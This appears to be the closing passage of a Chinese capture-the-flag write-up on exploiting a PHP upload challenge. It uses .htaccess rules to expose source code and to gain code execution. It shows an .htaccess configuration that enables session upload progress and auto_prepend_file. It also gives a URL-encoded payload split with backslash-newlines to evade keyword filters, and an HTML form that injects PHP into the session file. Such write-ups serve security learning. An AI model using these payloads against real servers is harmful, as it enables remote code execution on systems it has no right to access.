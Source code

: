 #### 通过设置htaccess规则拿到源码

在htaccess添加规则如下，使得php解析引擎关闭，得到文件源码

![mjgHW8.png](https://s2.ax1x.com/2019/08/30/mjgHW8.png)



### 最后的一些思考

看了一些php.ini的东西，感觉是会有第四种做法的,就尝试了一下(其实和前三种差不多

最后看php.ini的信息的时候随手翻了一下，发现如下四个配置，而且发现都可以通过htaccess控制

![mjIr8I.png](https://s2.ax1x.com/2019/08/30/mjIr8I.png)

仔细思考了一下，想到了可以`POST`一个与`session.upload_progress.name`同名的变量，这个变量对应的值就会被记录到`session`文件中，那么我们再去包含这个session，那么也可以getshell的这种做法。

但是这道题没设session，看了一会配置信息，发现上面有一个配置是`session.auto_start`,这个配置的意思相当于自动开启session_start，那么这样就很好办了，首先设置htaccess文件内容如下

```php
php_value session.auto_start 1
php_value session.upload_progress.cleanup 0
php_value session.upload_progress.enabled 1
php_value session.save_path "/tmp"
php_value auto_prepend_file "/tmp/sess_123"

# \

```

对应payload为

```
filename=.htaccess&content=php_value%20sessio%5C%0An.auto_start%201%0Aphp_value%20sessio%5C%0An.up%5C%0Aload_progress.cleanup%200%0Aphp_value%20sessio%5C%0An.uplo%5C%0Aad_progress.enabled%201%0Aphp_value%20sessio%5C%0An.save_path%20%22%2Ftmp%22%0Aphp_value%20auto_prepend_fi%5C%0Ale%20%22%2Ftmp%2Fsess_123%22%0A%23%20%5C

```

第二步通过表单把shell语句加在session文件中

表单如下

```html
<form action="http://4b94737b-7d77-493d-b119-6ab89c8ef450.node1.buuoj.cn" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="<?php phpinfo(); ?>" />
    <input type="file" name="file1" />
    <input type="file" name="file2" />
    <input type="submit" />
</form>

```
